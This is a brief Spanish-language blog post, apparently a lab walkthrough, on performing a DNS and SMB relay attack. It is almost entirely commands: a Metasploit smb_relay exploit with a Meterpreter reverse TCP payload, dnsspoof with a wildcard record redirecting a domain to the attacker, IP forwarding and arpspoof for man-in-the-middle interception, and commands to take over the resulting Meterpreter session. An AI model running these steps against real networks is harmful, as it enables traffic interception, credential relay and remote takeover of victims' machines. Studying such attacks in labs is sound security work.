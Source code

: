 ```yaml
---
title: 'DNS y SMB Relay Attack'
description: '...'
pubDate: 'May 12 2023'
slug: 'dns_smb_relay_attack'
---
```


```bash
msfconsole
use exploit/windows/smb/smb_relay
set SRVHOST 172.16.5.101
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 172.16.5.101
set SMBHOST 172.16.5.10
exploit

```

ahora para rederigir a la victima a nuestro sistema Metasploit cada vez que haga una conexión a cualquier host en el dominio usamos **dnsspoof**

```bash
echo "172.16.5.101 *.sportsbass.com" > dns

# luego corremos nuestro dns

dnsspoof -i eth1 -f dns

```

luego activamos **MITM**

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward

#
arpspoof -i eth1 -t 172.16.5.5 172.16.5.1
arpspoof -i eth1 -t 172.16.5.1 172.16.5.5

```

conseguir una sesion meterpreter

```bash
sessions
sessions -i 1
getuid
```
